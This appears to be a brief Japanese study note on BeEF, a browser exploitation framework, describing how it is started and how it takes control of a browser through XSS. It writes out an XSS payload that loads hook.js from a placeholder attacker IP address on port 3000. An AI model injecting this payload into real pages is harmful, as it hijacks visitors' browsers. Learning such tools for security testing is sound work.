 # BeEF

* ブラウザ向けの脆弱性を検証するツール(XSS)
* メニューから`Beef start`を選択
* XSSでBeEFのスクリプトを実行させて制御を奪う
    `<script src=http://攻撃端末のIPアドレス:3000/hook.js></script>`
